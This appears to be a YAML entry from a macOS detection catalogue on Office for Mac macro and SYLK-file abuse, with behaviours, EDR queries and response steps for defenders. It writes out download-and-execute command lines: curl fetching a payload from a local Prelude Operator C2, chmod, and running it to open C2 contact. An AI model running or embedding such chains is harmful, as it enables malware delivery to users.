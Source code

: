 ```yaml
---
Name: Office for Mac
Description: These techniques are far more common on the Windows side, but Office for Mac also has the ability to execute VBA on macOS systems. These techniques are far less common on macOS, likely because they stand out from an EDR perspective and Microsoft has implemented sandboxing in recent versions of Office for Mac (2016 and higher). However, it is still important to test these scenarios on all Office for Mac versions, since sandbox escapes are always possible and recent techniques such as SYLK file extension abuse share some of the same detection logic as VBA execution vectors.
Author: Adam Nadrowski
Created: 2022-05-18
Full_Path:
  - Path: /Applications/Microsoft Excel.app/Contents/MacOS/Microsoft Excel
  - Path: /Applications/Microsoft PowerPoint.app/Contents/MacOS/Microsoft PowerPoint
  - Path: /Applications/Microsoft Word.app/Contents/MacOS/Microsoft Word
  - Path: /bin/bash
Resources:
  - Link: https://outflank.nl/blog/2019/10/30/abusing-the-sylk-file-format
Commands:

  - Name: Macro VBA for Excel, PowerPoint and Word
    Description: This query detects any instance of Excel, PowerPoint or Word spawning processes. This is typically done using the MacScript command of VBA, which is becoming more restricted via the Apple Sandbox. Although Microsoft appears to be moving away from MacScript in favor of the AppleScriptTask command, there is still some room for abuse (even on current versions of Office for Mac).
    Usecase: Adversaries may pair this technique with a social engineering component to execute malware.
    Category: Execution
    Privileges: User
    MitreID: T1059.007
    Behaviors:
      - Step: When opening a Office for Mac file (Excel, PPT, or Word), launchd creates the "/Applications/Microsoft Excel.app/Contents/MacOS/Microsoft Excel|PowerPoint|Word" process as user.
      - Step: A prompt appears on the GUI asking the user to enable macros.
      - Step: Once a user enables macros, process_name Microsoft Excel|PowerPoint|Word executes multiple bash processes for each command in the macro. Each future bash process is unique.
      - Step: The first command, bash executes curl to download a payload to disk, and is saved under ~/Library/Containers/com.microsoft.Excel/Data (replace Excel with PowerPoint or Word). The command line is <pre><code>sh -c curl -k http://127.0.0.1:3391/payloads/d2526ae26fc2139263f57c2af445004e385772ec/operator-payload -o operator-payload</pre></code>
      - Step: The next command, bash executes chmod to make the payload executable. The command line is <pre><code>sh -c chmod +x operator-payload</pre></code>
      - Step: The next command, bash executes the payload to establish C2 comms with Prelude Operator. The command line is <pre><code>sh -c ./operator-payload -name macro-vba-excel & </pre></code>
      - Step: The payload, ~/Library/Containers/com.microsoft.Excel/Data/operator-payload (replace Excel with PowerPoint or Word) makes a network connection to Operator.
    Execute:
      - Prelude Operator: Run <a href="https://github.com/AutomoxSecurity/iShelly">iShelly</a> with any of the VBA based techniques within the "Office for Mac" options. It is important to note that Office for Mac 2016 and higher has an Apple Sandbox with more resitrctions. This means techniques that leverage VBA macros to write a binary to disk will likely fail. However, it is still important to test this as <a href="https://www.mdsec.co.uk/2018/08/escaping-the-sandbox-microsoft-office-on-macos/">sandbox escapes</a> may be possible.
    Detect:
      - EDR: (parent_process_image_path = "/Applications/Microsoft Excel.app/*" OR parent_process_image_path = "/Applications/Microsoft PowerPoint.app/*" OR parent_process_image_path = "/Applications/Microsoft Word.app/*") and process_name = "bash" and event_type = "Process Create"
    Respond:
      - Step: Review the cmdline of bash's children. This should make it fairly easy to tell if it is malicious or not. For example, if it's curl reaching out to a suspect domain/IP and saving a file to disk using -o argument, it likely warrants immediate investigation.

  - Name: Excel macro execution via SYLK file extension
    Description: This query detects any instance of Excel launching the bash process. The SYLK file extension is an ancient extension that can be abused to execute macros. Thankfully, the OS behaviors mimick that of regular macros being executed, so the same query from the "Macro VBA for Excel, PowerPoint and Word" TTP will detect this.
    Usecase: Adversaries may pair this technique with a social engineering component to execute malware.
    Category: Execution
    Privileges: User
    MitreID: T1059.007
    Behaviors:
      - Step: When opening a file with the slk extension, launchd creates the "/Applications/Microsoft Excel.app/Contents/MacOS/Microsoft Excel" process as user.
      - Step: A prompt appears on the GUI asking the user to enable macros.
      - Step: Once a user enables macros, process_name "Microsoft Excel" executes one bash process with the cmdline <pre><code>sh -c /usr/bin/curl -k http://127.0.0.1:3391/payloads/d2526ae26fc2139263f57c2af445004e385772ec/operator-payload -o operator-payload && chmod +x operator-payload && ./operator-payload -name macro-sylk-excel & </pre></code>
      - Step: The first command, curl, downloads a payload to disk, and is saved under ~/Library/Containers/com.microsoft.Excel/Data/operator-payload.
      - Step: The next command, chmod, makes the payload executable.
      - Step: The next command, operator-payload, is the malicious payload that executes to establish C2 comms with Prelude Operator.
      - Step: The payload, ~/Library/Containers/com.microsoft.Excel/Data/operator-payload makes a network connection to Operator.
    Execute:
      - Prelude Operator: Run <a href="https://github.com/AutomoxSecurity/iShelly">iShelly</a> with the "Macro SYLK Excel" procedure from the "Office for Mac" options. It is important to note that Office for Mac 2016 and higher has an Apple Sandbox with more resitrctions. This means techniques that leverage VBA macros to write a binary to disk will likely fail. However, it is still important to test this as <a href="https://www.mdsec.co.uk/2018/08/escaping-the-sandbox-microsoft-office-on-macos/">sandbox escapes</a> may be possible.
    Detect:
      - EDR: parent_process_image_path = "/Applications/Microsoft Excel.app/*" and process_name = "bash" and event_type = "Process Create"
    Respond:
      - Step: Review the cmdline of bash's children. This should make it fairly easy to tell if it is malicious or not. For example, if it's curl reaching out to a suspect domain/IP and saving some payload to disk using -o argument, it likely warrants immediate investigation.
---
```

